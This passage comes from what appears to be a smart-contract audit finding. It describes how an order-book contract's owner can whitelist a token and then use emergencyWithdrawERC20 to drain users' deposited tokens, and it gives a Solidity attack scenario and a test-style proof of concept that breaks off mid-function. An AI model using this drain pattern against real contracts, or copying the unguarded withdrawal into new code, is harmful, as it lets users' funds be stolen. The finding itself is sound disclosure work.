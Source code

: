 Likelihood:

Owner has direct control over both setAllowedSellToken() and emergencyWithdrawERC20()
Attack requires only standard owner privileges, no special conditions
Could happen accidentally or maliciously
High likelihood because it requires no external dependencies

Impact:

Complete loss of user funds for any newly whitelisted tokens
Orders become unfulfillable, breaking protocol functionality
Users lose deposited tokens with no recovery mechanism
Destroys trust in protocol security

### Proof of Concept

```solidity
// Step-by-step attack scenario:

// Day 1: Owner adds support for LINK token
orderBook.setAllowedSellToken(LINK_ADDRESS, true);

// Days 2-30: Users create sell orders with LINK
// User A: createSellOrder(LINK_ADDRESS, 1000, 5000, 86400)
// User B: createSellOrder(LINK_ADDRESS, 2000, 8000, 86400) 
// User C: createSellOrder(LINK_ADDRESS, 1500, 6000, 86400)
// Total: 4500 LINK tokens now locked in contract

// Day 31: Owner "emergency withdraws" all LINK tokens
orderBook.emergencyWithdrawERC20(LINK_ADDRESS, 4500, ownerWallet);

// Result:
// ✅ Transaction succeeds (LINK != wETH/wBTC/wSOL/USDC)
// ❌ Owner receives 4500 LINK tokens
// ❌ Users A, B, C have worthless orders that can never be fulfilled
// ❌ buyOrder() calls will fail: "Insufficient token balance"

// Proof of concept test:
contract ProofOfConcept {
    function testEmergencyWithdrawWhitelistedToken() public {
        // Setup
        address LINK = address(new MockERC20("LINK", "LINK"));
        orderBook.setAllowedSellToken(LINK, true);
        
        // User deposits tokens via createSellOrder
        vm.prank(user);
        MockERC20(LINK).approve(address(orderBook), 1000);
        vm.prank(user);
        uint256 orderId = orderBook.createSellOrder(LINK, 1000, 5000, 86400);
        
        // Verify tokens are in contract
        assertEq(MockERC20(LINK).balanceOf(address(orderBook)), 1000);
        
        // Owner drains the tokens
        vm.prank(owner);
        orderBook.emergencyWithdrawERC20(LINK, 1000, owner);
        
        // Verify drainage
        assertEq(MockERC20(LINK).balanceOf(address(orderBook)), 0);
        assertEq(MockERC20(LINK).balanceOf(owner), 1000);
        
        // Order becomes unfulfillable
        vm.prank(buyer);
        vm.expectRevert(); // Will fail due to insufficient token balance
        orderBook.buyOrder(orderId);
```
